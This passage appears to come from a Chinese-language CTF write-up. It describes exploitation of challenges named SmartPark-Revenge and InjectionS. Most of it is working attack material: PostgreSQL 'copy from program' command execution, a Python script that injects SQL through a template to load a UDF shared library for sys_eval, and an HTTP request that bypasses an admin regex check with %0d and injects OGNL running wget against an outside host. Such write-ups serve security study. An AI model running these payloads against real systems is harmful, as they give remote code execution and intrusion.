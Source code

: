 ```
drop table if exists cmd_exec;
create table cmd_exec(cmd_output text);
copy cmd_exec from program 'id';
select * from cmd_exec;
```

> ps:没改之前的内容有点生草，swagger接口一个也用不了，得把Content-Type改了才能用，以及一些匹配让我产生了能够绕过并sqli的错觉（这是我的问题

### SmartPark-Revenge

同样的思路，最后sqli的利用换成udf提权

```python
import requests
import sys


port="50549"
path="test"
url=f"http://127.0.0.1:{port}/{path}"
headers={"authorization":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTQ3OTU2ODEsInN1YiI6IjExMTExMTExIn0.kk2hysaHlO3p7mJP7dVcDVBm_QSzhcpT5kGmGL2I0bE"}
with open ("sqlcmd.txt",'r') as f:
    sql=f.readline()
    while sql:
        if sql !='\n':
            data=f"hello {{{{.DbCall \"{sql.strip()}\"}}}}{{{{.Result}}}}"
            print(data)
            print(requests.post(url=url,headers=headers,data=data).text)
        sql=f.readline()
```

```sqli
# sqlcmd.txt
SELECT lo_create(784);
insert into pg_largeobject values (784, 0, decode('data','hex'));
SELECT lo_export(784, '/tmp/testeval1.so');
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/tmp/testeval1.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;
select sys_eval('id');
```

### InjectionS

权限绕过出现在`authorizeRequest().regexmatchers(new String[]{"/admin/.*"})`

.*不会匹配\r\n ，可绕过admin权限检查，往url/admin/password/key路由发json，闭合sql，往里面塞ognl语句，

```http
POST /admin/password/%0d1 HTTP/1.1
Host: 47.113.202.32:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=27F381FA18697B22BF93F33A6AEF9A76
Connection: close
Content-Length: 145

{"name":"'Alice' ) and (      ${@java.lang.Runtime@getRuntime().exec('wget vps/file')}            ) or (1=1 ","id":1,"password":"123"}
```
